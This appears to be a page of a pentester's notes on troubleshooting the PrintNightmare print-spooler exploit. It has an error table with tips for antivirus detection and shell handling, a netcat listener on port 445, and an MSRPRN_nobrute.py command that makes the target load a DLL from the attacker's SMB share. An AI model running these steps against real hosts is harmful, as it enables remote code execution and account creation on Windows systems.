 ### Errors & tips

| Error                                                                                                         | Solution                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                         | permissions on the file in the SMB share                                                                                                                                                 |
| RPRN SessionError: unknown error code: 0x180                                                                  | Enable SMB2Support                                                                                                                                                                       |
| RPRN SessionError: code: 0x2: - ERROR_FILE_NOT_FOUND - The system cannot fil the file specified.              | Typo in supplied DLL ?                                                                                                                                                                   |
| RPRN SessionError: code: 0xd8 - ERROR_EXE_MACHINE_TYPE_MISMATCH                                               | DLL is kaduk or wrong architect (x86 vs x64)                                                                                                                                             |
| RPRN SessionError: code 0xe1 - ERROR_VIRUS_INFECTED                                                           | AV caught you butt, try harder                                                                                                                                                           |
| RPRN SessionError: Unknown error code: 0x8001011b                                                             | Seems like the host is patched                                                                                                                                                           |
| RPRN SessionError: code: 0x43 ERROR_BAD_NET_NAME                                                              | Wrong share name used in printnightmare or typo in samba config                                                                                                                          |
| SMB SessionError: STATUS_PIPE_BROKEN                                                                          | Print spooler service crashed during payload execution. Restart the spooler if you got a shell (PowerShell -> `Restart-Service spooler`. CMD -> `net stop spooler && net start spooler`) |
| After killing the session the payload does not work a second time                                             | Always ensure the first thing you do is restart the spooler service upon a shell connect. If you did this, use a different printername. Otherwise ur fuk'd                               |
| Sometimes when removing the print drivers the dll will execute again. This means your payload will run again. | Nothing, just something to be aware of if you use a payload that adds a user or w.e.                                                                                                     |

### Check if system reaches out

By simply trying to connect to a nc instance we can verify that the system can reach our smb server.

Start nc on 445.

```bash
sudo nv -nlvp 445
```

Run MSRPRN_nobrute and try to connect to nc.

```bash
python3 MSRPRN_nobrute.py 'user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

![test_if_system_reaches_out](../../../_resources/test_if_system_reaches_out.png)

